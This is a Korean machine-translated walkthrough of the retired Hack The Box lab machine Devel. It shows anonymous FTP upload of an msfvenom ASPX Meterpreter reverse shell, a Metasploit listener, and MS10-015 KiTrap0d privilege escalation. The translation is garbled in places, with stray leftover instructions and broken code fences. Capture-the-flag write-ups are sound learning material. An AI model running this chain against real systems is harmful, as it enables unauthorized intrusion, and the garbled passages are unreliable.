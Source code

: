 ```yaml
---
title: "Devel  Hack The Box 워크스루"
description: ""
coverImage: "/assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png"
date: 2024-06-19 01:18
ogImage: 
  url: /assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png
tag: Tech
originalTitle: "Devel — Hack The Box Walk-through"
link: "https://medium.com/@jaylinscorner/devel-hack-the-box-walkthrough-6a04f5f0b8a3"
---
```



안녕하세요!

오늘은 과거에 완료한 Hack The Box 머신인 Devel을 살펴보겠습니다. 이 머신은 Windows 머신에서의 지역 권한 상승을 강조합니다.

이 머신은 여전히 Hack The Box에서 이용 가능한 쉬운 난이도의 은퇴된 머신입니다. 이 글을 쓰는 시점에서는 불행히도 이 머신에 접근하려면 VIP 멤버십이 필요합니다. 제가 이 머신을 루팅했을 때는 무료였지만, 곧 다시 무료가 될 수도 있습니다.

더 이상 말 늑대, 시작해 봅시다!

<div class="content-ad"></div>

마크다운 형식으로 테이블 태그를 변경해주세요.

<div class="content-ad"></div>

우리가 포트 스캔 결과 익명 FTP 로그인이 허용되어 있음을 알려주었기 때문에 익명으로 FTP에 로그인을 시도해 볼 수 있습니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_2.png)

우리는 성공적으로 포트 21인 FTP에 익명으로 로그인했습니다. 현재 디렉토리에 있는 파일 목록을 볼 수 있습니다.

이 서버가 Microsoft IIS/7.5를 실행 중이기 때문에, ASP 및 ASPX 확장자를 가진 코드 실행을 허용하는 이 버전의 IIS에서 익명으로 파일을 업로드하는 시도를 해볼 수 있습니다.

<div class="content-ad"></div>

```markdown
<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_3.png" />

랜덤 ASPX 파일을 업로드한 후 익명 사용자의 업로드 기능을 이용할 수 있다는 점을 알 수 있습니다.

ASPX 파일을 업로드할 수 있으므로 ASPX 역술을 생성해볼 수 있습니다.

터미널에서 Metasploit Payload Generator를 엽니다.
```

<div class="content-ad"></div>

```js
msfvenom
```

그런 다음, ASPX 역술 쉘을 만들려면 다음을 사용합니다:

```js
msfvenom -f aspx -p windows/meterpreter/reverse_tcp LHOST=(내_IP) LPORT=4444 -o moe.aspx
```

msfvenom을 사용하여 역술 쉘을 얻을 수 있는 올바른 페이로드를 생성하려고 합니다. 이 경우 Windows reverse_tcp 페이로드를 사용하고 있으며, 이는 Windows 상자이기 때문입니다. 선택한 옵션은 Meterpreter입니다.```

<div class="content-ad"></div>

다음은 플래그입니다:

- -f: 출력 형식
- -p: 사용할 페이로드 (우리 시나리오에서는 Windows Reverse TCP)
- LHOST: 우리 자신입니다; 이 페이로드의 역쉘 수신 측에 있을 것입니다. 우리가 수신 대기 중인 IP를 입력하는 곳입니다 (eth0 또는 tun0)
- LPORT: 우리가 수신 대기할 포트, 보통 기본값으로 4444를 유지합니다
- -o: 서버에 업로드된 페이로드를 포함하는 출력 파일

이 파일을 업로드 시도하면 성공합니다. 이제 업로드한 파일과 상호 작용하기 위해 리스너를 구성합니다.

터미널에서 msfconsole을 실행하여 Metasploit으로 리스너를 구성합니다:

<div class="content-ad"></div>

```markdown
msfconsole
```

그런 다음 사용할 exploit으로 이동하겠습니다.

```markdown
use exploit/multi/handler 
```

그런 다음 옵션을 우리가 원하는 대로 구성합니다.

<div class="content-ad"></div>

해당 표식을 마크다운 형식으로 변경하시면 됩니다.

<div class="content-ad"></div>

```markdown
```js
set payload windows/meterpreter/reverse_tcp
```

참고: 이번에는 세션 ID를 실행하기 전에 기억하는 것이 중요합니다. 나중에 사용할 것입니다.

이제 실행해 봅시다!! :

```js
run
```  
```

<div class="content-ad"></div>

우리는 브라우저에서 ASPX 역쉘 파일을 다음과 같이 로드합니다:

```js
10.10.10.5/{File_Name}
```

이제 터미널에서 호스트 OS 안에 있다는 것을 확인할 수 있습니다

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_4.png" />

<div class="content-ad"></div>

이제 파일 시스템으로 이동해 보아야 합니다. 가능하면 C 드라이브로 이동하겠습니다.

그래서 다음과 같이 세션을 백그라운드로 설정합니다:

```js
background
```

그런 다음, 획득한 시스템에서 로컬 취약점을 찾기 위해 Metasploit을 다시 엽니다. msfconsole을 열고 exploit/multi/handler로 이동한 다음 post/multi/recon/local_exploit_suggester로 넘어갑니다.

<div class="content-ad"></div>

```js
use post/multi/recon/local_exploit_suggester
```

![Image 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_5.png)

이전에 메모한 세션 ID를 여기에 입력하겠습니다:

![Image 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_6.png)
```

<div class="content-ad"></div>

우리의 세션 ID를 구성한 후에 이를 실행할 거에요. 이 모듈은 Windows에서 로컬 악용을 찾을 거에요.

실행이 완료되면 Metasploit이 사용을 제안하는 것을 볼 수 있을 거에요:

```js
exploit/windows/local/ms10_015_kitrap0d
```

이 모듈은 Windows Machines에서 시스템 권한으로 새로운 세션을 만들 것이에요. 이 모듈은 CVE-2010–0232와 관련된 악용인데요, 이는 Microsoft Windows 커널 예외 처리기 취약점에 관련된 것이에요.

<div class="content-ad"></div>

우리는 옵션을 조정합니다...

맞죠!

```js
show options
```

들을 호스트를 설정해요. 그리고 우리의 리스닝 포트를 4445로 설정할 거에요; 다른 포트를 사용하여 exploit을 수행할 거예요. 마지막으로 세션을 리스너와 동일하게 만들 거에요.

<div class="content-ad"></div>

그럼 이제 실행해 봅시다!

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_7.png)

우리의 Exploit이 완료된 것 같은데 성공했을까요?

Meterpreter에서 명령 셸을 사용합니다.

<div class="content-ad"></div>

접근 성공! 이제 cd ..를 사용하여 C 드라이브로 이동합니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_8.png)

C 드라이브의 내용을 분석하고 사용자 디렉토리가 흥미로울 수 있다는 것을 알 수 있었습니다. 해당 디렉터리로 이동하면 관리자 및 바비스와 같이 발견할 가치가 있는 2개의 사용자 디렉토리가 보입니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_9.png)

<div class="content-ad"></div>

해당 디렉터리로 이동하고 두 가지 모두 사용자 및 루트 권한을 얻어야 이 상자를 루팅할 수 있어요!

![이미지 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_10.png)

![이미지 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_11.png)

이것은 제 첫 번째 게시된 Hack The Box 워크스루입니다. 이 워크스루를 작성하는 것은 나에게 유용한 경험을 얻게 도와주고 동시에 다른 사람들이 학습하는 데 도움이 되기도 해요!

<div class="content-ad"></div>

도움이 되었다면 알려주세요. 또한 Linkedin에서 연락해도 괜찮습니다:

www.linkedin.com/in/jaylin-nelson

참고 문헌: